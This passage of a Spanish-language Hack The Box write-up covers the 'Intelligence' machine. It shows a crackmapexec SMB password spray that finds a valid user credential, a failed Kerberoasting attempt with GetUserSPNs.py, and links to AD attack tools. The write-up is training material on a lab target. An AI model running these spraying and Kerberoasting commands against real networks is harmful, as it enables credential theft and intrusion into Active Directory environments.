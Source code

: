 ![list](/assets/img/intelligence/Kali-2022-09-10-00-56-26.png){:.lead width="800" height="100" loading="lazy"}

```bash
crackmapexec smb 10.10.10.248 -u users.txt -p 'NewIntelligenceCorpUser9876'
```

{:.note}
El usuario compatile es `Tiffany.Molina:NewIntelligenceCorpUser9876`.

Podemos probar tambien kerberosting attack ya tenemos el dominio + un usuario + 

una contraseña  podemos probar un ataque [Kerberosting].

[Kerberosting]: https://www.netwrix.com/cracking_kerberos_tgs_tickets_using_kerberoasting.html

![list](/assets/img/intelligence/Kali-2022-09-10-00-59-06.png){:.lead width="800" height="100" loading="lazy"}

```bash
GetUserSPNs.py intelligence.htb/Tiffany.Molina:NewIntelligenceCorpUser9876
```

{:.note}
No es posible el ataque.

Podemos probar ahora que tenemos credenciales rcpclient.


[dnstool.py]: https://github.com/dirkjanm/krbrelayx
[bloodhound-python]: https://github.com/fox-it/BloodHound.py
[gmsadumper]: https://github.com/micahvandeusen/gMSADumper